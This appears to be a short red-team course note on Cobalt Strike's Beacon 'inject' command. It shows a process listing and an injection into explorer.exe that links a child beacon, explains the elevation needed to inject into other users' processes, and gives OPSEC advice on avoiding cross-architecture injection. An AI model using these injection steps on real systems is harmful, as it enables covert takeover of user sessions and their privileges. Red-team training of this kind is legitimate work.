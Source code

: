 The `inject` command will inject a Beacon payload in the form of shellcode into a target process. You can inject into processes owned by the current user without needing elevation, but local admin privileges are required to inject into processes owned by other users. If you inject into a process owned by a different user, your Beacon will run with all the local and domain privileges of that user.
```shell
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking

beacon> inject 3320 x64 tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```

Where:
-   `3320` is the PID of the target process.
-   `x64` is the architecture of that process.
-   `tcp-4444-local` is the name of the listener.

**OPSEC Alert**
>Don't perform cross-platform injection unless you really have to (e.g. x86 -> x64 or x64 -> x86).

![alt text](file:///android_asset/20220831124301.png)

